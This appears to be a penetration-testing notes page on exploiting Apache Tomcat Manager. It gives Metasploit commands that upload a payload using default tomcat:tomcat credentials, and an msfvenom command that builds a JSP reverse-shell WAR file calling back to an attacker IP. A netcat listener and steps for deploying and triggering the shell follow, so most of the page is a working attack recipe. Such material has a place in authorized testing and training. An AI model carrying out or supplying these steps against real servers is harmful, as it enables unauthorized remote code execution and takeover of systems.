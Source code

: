 `Tomcat exploits <https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager/>`_
******************************************************************************************************

Tomcat Manager Authenticated Upload Code Execution
#########################################################

This module can be used to execute a payload on Apache Tomcat servers that have an exposed “manager” application. The payload is uploaded as a WAR archive containing a JSP application using a POST request against the /manager/html/upload component. **NOTE: The compatible payload sets vary based on the selected target. For example, you must select the Windows target to use native Windows payloads.**

.. code-block:: console

    use exploit/multi/http/tomcat_mgr_upload
    msf exploit(multi/http/tomcat_mgr_upload) > set rhost 192.168.1.101
    msf exploit(multi/http/tomcat_mgr_upload) > set rport 8080
    msf exploit(multi/http/tomcat_mgr_upload) > set httpusername tomcat
    msf exploit(multi/http/tomcat_mgr_upload) > set httppassword tomcat
    msf exploit(multi/http/tomcat_mgr_upload) > exploit`

Generate .war Format Backdoor
####################################

We can use msfvenom for generating a .war format backdoor for java/jsp payload, all you need to do is just follow the given below syntax to create a .war format file and then run Netcat listener

.. code-block:: console

    msfvenom -p java/jsp_shell_reverse_tcp LHOST=<attacker IP> LPORT=<attacker port> -f war > shell.war
    nc -lvp <attacker port from above command>

You then upload it to the manager under the section WAR file to deploy, and then click deploy.

Now login to tomcat manager application using tomcat: tomcat as username: password. You will be welcomed by the admin dashboard where you can upload a .war file. 

As you can observe I had browser the malicious shell.war file to be deployed as highlighted in the image. As soon as you will upload your file, you will see the /path entry for your file in the table of Applications

To execute your .war file, you have to click on the /.war file path mention in the Application table. Or you can directly explore http://target_IP:port/file_name.

As soon as you will execute your file you will get the reverse connection through netcat.
